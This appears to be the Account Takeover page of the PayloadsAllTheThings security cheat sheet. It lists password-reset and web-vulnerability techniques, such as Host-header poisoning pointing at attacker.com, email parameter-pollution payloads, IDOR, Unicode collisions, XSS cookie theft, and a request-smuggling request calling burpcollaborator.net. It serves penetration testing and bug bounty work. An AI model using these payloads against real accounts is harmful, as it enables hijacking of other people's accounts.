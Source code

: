 ```yaml
---
icon: file-lines
---
```


# PayloadAllTheThings - Account Takeover

## Account Takeover

> Account Takeover (ATO) is a significant threat in the cybersecurity landscape, involving unauthorized access to users' accounts through various attack vectors.

### Summary

* Password Reset Feature
  * Password Reset Token Leak via Referrer
  * Account Takeover Through Password Reset Poisoning
  * Password Reset via Email Parameter
  * IDOR on API Parameters
  * Weak Password Reset Token
  * Leaking Password Reset Token
  * Password Reset via Username Collision
  * Account Takeover Due To Unicode Normalization Issue
* Account Takeover via Web Vulnerabilities
  * Account Takeover via Cross Site Scripting
  * Account Takeover via HTTP Request Smuggling
  * Account Takeover via CSRF
* References

### Password Reset Feature

#### Password Reset Token Leak via Referrer

1. Request password reset to your email address
2. Click on the password reset link
3. Don't change password
4. Click any 3rd party websites(eg: Facebook, twitter)
5. Intercept the request in Burp Suite proxy
6. Check if the referer header is leaking password reset token.

#### Account Takeover Through Password Reset Poisoning

1. Intercept the password reset request in Burp Suite
2. Add or edit the following headers in Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3.  Forward the request with the modified header

    ```http
    POST https://example.com/reset.php HTTP/1.1
    Accept: */*
    Content-Type: application/json
    Host: attacker.com
    ```
4. Look for a password reset URL based on the _host header_ like : `https://attacker.com/reset-password.php?token=TOKEN`

#### Password Reset via Email Parameter

```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```

#### IDOR on API Parameters

1. Attacker have to login with their account and go to the **Change password** feature.
2. Start the Burp Suite and Intercept the request
3.  Send it to the repeater tab and edit the parameters : User ID/email

    ```powershell
    POST /api/changepass
    [...]
    ("form": {"email":"victim@email.com","password":"securepwd"})
    ```

#### Weak Password Reset Token

The password reset token should be randomly generated and unique every time. Try to determine if the token expire or if it's always the same, in some cases the generation algorithm is weak and can be guessed. The following variables might be used by the algorithm.

* Timestamp
* UserID
* Email of User
* Firstname and Lastname
* Date of Birth
* Cryptography
* Number only
* Small token sequence (<6 characters between \[A-Z,a-z,0-9])
* Token reuse
* Token expiration date

#### Leaking Password Reset Token

1. Trigger a password reset request using the API/UI for a specific email e.g: [test@mail.com](mailto:test@mail.com)
2. Inspect the server response and check for `resetToken`
3. Then use the token in an URL like `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

#### Password Reset via Username Collision

1. Register on the system with a username identical to the victim's username, but with white spaces inserted before and/or after the username. e.g: `"admin "`
2. Request a password reset with your malicious username.
3. Use the token sent to your email and reset the victim password.
4. Connect to the victim account with the new password.

The platform CTFd was vulnerable to this attack. See: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

#### Account Takeover Due To Unicode Normalization Issue

When processing user input involving unicode for case mapping or normalisation, unexpected behavior can occur.

* Victim account: `demo@gmail.com`
* Attacker account: `demⓞ@gmail.com`

[Unisub - is a tool that can suggest potential unicode characters that may be converted to a given character](https://github.com/tomnomnom/hacks/tree/master/unisub).

[Unicode pentester cheatsheet](https://gosecure.github.io/unicode-pentester-cheatsheet/) can be used to find list of suitable unicode characters based on platform.

### Account Takeover via Web Vulnerabilities

#### Account Takeover via Cross Site Scripting

1. Find an XSS inside the application or a subdomain if the cookies are scoped to the parent domain : `*.domain.com`
2. Leak the current **sessions cookie**
3. Authenticate as the user using the cookie

#### Account Takeover via HTTP Request Smuggling

Refer to **HTTP Request Smuggling** vulnerability page.

1.  Use **smuggler** to detect the type of HTTP Request Smuggling (CL, TE, CL.TE)

    ```powershell
    git clone https://github.com/defparam/smuggler.git
    cd smuggler
    python3 smuggler.py -h
    ```
2.  Craft a request which will overwrite the `POST / HTTP/1.1` with the following data:

    ```powershell
    GET http://something.burpcollaborator.net  HTTP/1.1
    X: 
    ```
3.  Final request could look like the following

    ```powershell
    GET /  HTTP/1.1
    Transfer-Encoding: chunked
    Host: something.com
    User-Agent: Smuggler/v1.0
    Content-Length: 83

    0

    GET http://something.burpcollaborator.net  HTTP/1.1
    X: X
    ```

Hackerone reports exploiting this bug

* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)
* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

#### Account Takeover via CSRF

1. Create a payload for the CSRF, e.g: "HTML form with auto submit for a password change"
2. Send the payload

#### Account Takeover via JWT

JSON Web Token might be used to authenticate an user.

* Edit the JWT with another User ID / Email
* Check for weak JWT signature

### References

* [$6,5k + $5k HTTP Request Smuggling mass account takeover - Slack + Zomato - Bug Bounty Reports Explained - August 30, 2020](https://www.youtube.com/watch?v=gzM4wWA7RFo)
* [10 Password Reset Flaws - Anugrah SR - September 16, 2020](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)
* [Broken Cryptography & Account Takeovers - Harsh Bothra - September 20, 2020](https://speakerdeck.com/harshbothra/broken-cryptography-and-account-takeovers?slide=28)
* [CTFd Account Takeover - NIST National Vulnerability Database - March 29, 2020](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)
* [Hacking Grindr Accounts with Copy and Paste - Troy Hunt - October 3, 2020](https://www.troyhunt.com/hacking-grindr-accounts-with-copy-and-paste/)
